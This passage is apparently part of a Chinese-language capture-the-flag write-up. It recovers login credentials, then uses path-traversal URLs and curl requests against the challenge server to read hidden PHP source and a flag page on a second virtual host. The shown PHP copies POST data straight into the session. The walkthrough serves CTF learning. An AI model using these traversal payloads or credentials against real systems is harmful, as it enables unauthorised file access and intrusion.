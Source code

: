 跑出完整的出密码

```
Dracula / ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz 
```

登陆之后又一个比较明显的文件遍历,可以看到网站还有一个隐藏的目录。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../var/www/html/__WebSiteFuckingPrivateContentNotForPublic666 
```

访问里面的页面可以得到源码

root@kali:~# curl http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD

```
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?> 

```

但是 Flag 并不在里面，而是是藏在另外一个 web 服务之中。在这个目录下可以看到。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../../home/devilish.local/__WebSiteFuckingPrivateContentNotForPublic666%2b666 
```

这个 server 中的 INDEX 文件输出了 Flag

```
root@kali:~# curl "http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666%2b666/INDEX" -H "Host: devilish.local"
<br/>
        This is the private Portal of us<br/><br/>
        If you are accessing this page this means you are one of the very few exclusive members who are allowed to come in here!<br/> 

<br/>
<?php echo($logged?"Here's your secret ".$flag."<br/><br/>":"Login to access the secret<br/><br/>")?>

<span class="styleX">s</span> 

```
